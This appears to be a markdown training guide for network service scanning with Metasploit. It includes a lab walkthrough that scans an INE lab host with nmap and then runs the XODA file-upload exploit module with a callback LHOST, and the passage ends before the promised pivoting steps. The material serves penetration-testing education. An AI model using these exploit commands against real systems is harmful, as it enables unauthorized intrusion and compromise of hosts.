 ## Short checklist

- [ ] Start PostgreSQL and msfconsole
- [ ] Create/select workspace
- [ ] Choose appropriate scanner module
- [ ] Set RHOSTS, PORTS, THREADS
- [ ] Run scan and inspect `hosts`/`services`
- [ ] Chain to service-specific auxiliary/exploit modules
- [ ] If pivoting, add routes with autoroute and re-scan via session

---
Revision: Detailed, user-friendly guide for port scanning with Metasploit auxiliary modules.

## Example: T1046 — Network Service Scanning (Lab walkthrough)

This walkthrough reproduces a practical lab that demonstrates discovery and scanning techniques (Nmap and Metasploit auxiliary modules) and shows how to pivot from a compromised host to scan an internal network.

Overview: identify reachable hosts, perform Nmap scanning, exploit a webapp to obtain a Meterpreter session, pivot with autoroute, and scan an internal host using both Metasploit and a simple bash port scanner.

Steps (condensed from the lab):

1. Open the Kali lab machine and verify reachability of the target:

```
ping -c 4 demo1.ine.local
```

2. Run a default Nmap scan to discover open ports:

```
nmap demo1.ine.local
```

The default scan reveals an open port 80 (HTTP).

3. Check the HTTP content hosted on port 80:

```
curl demo1.ine.local
```

The application is a XODA web app instance which has a Metasploit module available: exploit/unix/webapp/xoda_file_upload

4. Start Metasploit and use the XODA file upload exploit:

```
msfconsole
use exploit/unix/webapp/xoda_file_upload
set RHOSTS demo1.ine.local
set TARGETURI /
set LHOST 192.63.4.2
exploit
```
